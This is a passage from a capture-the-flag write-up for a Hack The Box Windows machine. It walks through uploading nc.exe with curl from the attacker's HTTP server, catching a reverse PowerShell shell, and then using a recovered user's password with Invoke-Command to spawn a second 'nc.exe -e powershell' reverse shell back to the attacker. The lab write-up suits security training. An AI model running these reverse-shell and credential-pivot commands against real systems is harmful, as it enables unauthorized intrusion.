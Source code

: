Cool, we got something, but we are not there yet, we'll need this shell to connect back to use. For that, we need to upload `nc.exe`. **WARNING: I tried with the `nc.exe` from a github repo, and it did not work. However, the `nc.exe` from `/usr/share/windows-resources/binaries/nc.exe` will. So copy this binary to your working directory and upload it with curl. That is creat a python server on your local machine `python -m SimpleHTTPServer`, and upload it using `curl http://10.10.14.30:8000/nc.exe -o nc.exe`. Stay in the uploads directory. Putting this bin elsewhere kept triggering something that deleted it for me. With that we can reconnect to use with a second nc listener.

```sh
$nc -lvnp 4422
listening on [any] 4422 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.167] 62986
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\uploads> whoami
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\uploads>
```

Great so now we have a proper powershell. Let's try to get user

# User

Getting user is actually quite simple is you remember old boxes, or if you look at [https://0xdf.gitlab.io/2020/03/28/htb-sniper.html](https://0xdf.gitlab.io/2020/03/28/htb-sniper.html). It's a simple case of executing `nc.exe` with `hector`, as we have some creds.

```powershell
PS C:\Users> hostname
hostname
Fidelity
PS C:\Users> $user="Fidelity\Hector"
$user="Fidelity\Hector"
PS C:\Users> $pass ="l33th4x0rhector"
$pass ="l33th4x0rhector"
PS C:\Users> $secstr = New-Object -TypeName System.Security.SecureString
$secstr = New-Object -TypeName System.Security.SecureString
PS C:\Users> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\Users> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
PS C:\Users> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
control\hector
```

We can now see that we can run commands as `hector`. So let's make another listner and go from there

```powershell
PS C:\inetpub\wwwroot\uploads> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e powershell 10.10.14.30 4441 } -Credential $cred -Computer localhost
Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e powershell 10.10.14.30 4441 } -Credential $cred -Computer localhost
```

